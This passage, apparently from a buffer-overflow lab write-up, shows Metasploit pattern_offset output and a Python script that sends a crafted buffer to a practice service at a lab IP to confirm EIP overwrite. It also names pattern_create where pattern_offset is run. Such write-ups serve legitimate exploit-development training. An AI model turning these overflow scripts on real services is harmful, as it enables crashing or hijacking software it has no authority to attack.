 ![eip](/assets/imgs/bof5_oscp/eip.png)

Using **pattern_create** to get the exact address of the EIP registry.

```
> sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 356B4134
[*] Exact match at offset 314
```

## Overwrite EIP

I modify the script to verify that the EIP address has been found correctly.

```
import socket
import sys
from time import sleep

buffer = "A"*314 + "B"*4 + "C"*500

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.104',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW5 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```
